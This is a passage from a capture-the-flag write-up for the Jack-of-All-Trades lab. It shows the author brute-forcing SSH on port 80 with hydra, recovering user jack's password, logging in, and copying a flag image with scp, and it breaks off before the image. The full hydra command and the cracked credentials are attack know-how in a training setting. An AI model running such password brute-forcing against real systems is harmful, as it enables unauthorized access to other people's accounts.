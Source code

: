 ### Brute-forcing SSH

From the name, I guessed that user `jack`'s password might be among the strings. I saved the list in a file and used `hydra` to brute-force the ssh service using the list:

~~~
└─$ hydra -l jack -P ./wordlist.txt ssh://$IP:80/
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-21 07:00:25
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 24 login tries (l:1/p:24), ~2 tries per task
[DATA] attacking ssh://10.10.210.212:80/
[80][ssh] host: 10.10.210.212   login: jack   password: ITMJpGGIqg1jn?>@
1 of 1 target successfully completed, 1 valid password found
~~~

My guess was right and we have `jack`'s password now: `ITMJpGGIqg1jn?>@`

## User Flag

I used the creds we found (`jack:ITMJpGGIqg1jn?>@`) and logged into the ssh service. First I listed the files in jack's home directory and saw an image named `user.jpg`:

~~~
jack@jack-of-all-trades:~$ ls -la
total 312
drwxr-x--- 3 jack jack   4096 Feb 29  2020 .
drwxr-xr-x 3 root root   4096 Feb 29  2020 ..
lrwxrwxrwx 1 root root      9 Feb 29  2020 .bash_history -> /dev/null
-rw-r--r-- 1 jack jack    220 Feb 29  2020 .bash_logout
-rw-r--r-- 1 jack jack   3515 Feb 29  2020 .bashrc
drwx------ 2 jack jack   4096 Feb 29  2020 .gnupg
-rw-r--r-- 1 jack jack    675 Feb 29  2020 .profile
-rwxr-x--- 1 jack jack 293302 Feb 28  2020 user.jpg
~~~

I used `scp` to transfer the file to my machine:

~~~
└─$ scp -P 80 jack@$IP:/home/jack/user.jpg . 
jack@10.10.210.212's password: 
user.jpg                                                                            100%  286KB 497.5KB/s   00:00
~~~

Here's the image and it contains the user flag:
